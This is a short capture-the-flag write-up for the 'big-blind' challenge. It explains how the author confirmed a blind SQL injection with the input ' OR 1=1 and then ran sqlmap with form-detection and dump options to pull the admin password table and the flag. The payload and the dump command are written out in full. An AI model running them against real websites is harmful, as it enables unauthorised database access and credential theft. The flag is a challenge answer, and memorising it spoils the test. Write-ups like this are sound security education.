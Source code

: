 # big-blind (70 solves, 474 points)

## Description:
[https://big-blind.hsc.tf](https://big-blind.hsc.tf)

## Solution:
Guessing from the challenge name, this is probably some sort of blind injection. Trying ' OR 1=1, confirms it's a SQL injection. Now, you could write your own injection script but because I'm lazy and a script kiddie, I used sqlmap. After a couple minutes, it was able to using a timing attack to find the flag.
```
luke@parrot:~/Downloads$ sqlmap  https://big-blind.hsc.tf/ --form --batch  --dump --no-cast
...
...
+-----------------------------+--------+
| pass                        | user   |
+-----------------------------+--------+
| flag{any_info_is_good_info} | admin  |
+-----------------------------+--------+
```
## Flag:
`flag{any_info_is_good_info}`
